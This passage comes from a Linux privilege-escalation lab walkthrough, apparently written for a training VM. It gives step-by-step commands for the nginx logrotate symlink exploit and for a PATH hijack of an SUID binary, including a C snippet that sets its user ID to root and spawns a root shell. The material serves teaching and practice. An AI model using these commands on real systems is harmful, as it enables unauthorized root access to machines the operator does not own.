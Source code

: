 ## Privilege Escalation - SUID (Symlinks)

Detection

Linux VM

1. In command prompt type: dpkg -l | grep nginx
2. From the output, notice that the installed nginx version is below 1.6.2-5+deb8u3.

Exploitation

Linux VM – Terminal 1

1. For this exploit, it is required that the user be www-data. To simulate this escalate to root by typing: su root
2. The root password is password123
3. Once escalated to root, in command prompt type: su -l www-data
4. In command prompt type: /home/user/tools/nginx/nginxed-root.sh /var/log/nginx/error.log
5. At this stage, the system waits for logrotate to execute. In order to speed up the process, this will be simulated by connecting to the Linux VM via a different terminal.

Linux VM – Terminal 2

1. Once logged in, type: su root
2. The root password is password123
3. As root, type the following: invoke-rc.d nginx rotate >/dev/null 2>&1
4. Switch back to the previous terminal.

Linux VM – Terminal 1

1. From the output, notice that the exploit continued its execution.
2. In command prompt type: id

##  Privilege Escalation - SUID (Environment Variables #1)

Detection

Linux VM

1. In command prompt type: find / -type f -perm -04000 -ls 2>/dev/null
2. From the output, make note of all the SUID binaries.
3. In command prompt type: strings /usr/local/bin/suid-env
4. From the output, notice the functions used by the binary.

Exploitation

Linux VM

1. In command prompt type:
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/service.c
2. In command prompt type: gcc /tmp/service.c -o /tmp/service
3. In command prompt type: export PATH=/tmp:$PATH
4. In command prompt type: /usr/local/bin/suid-env
5. In command prompt type: id

## Privilege Escalation - SUID (Environment Variables #2)
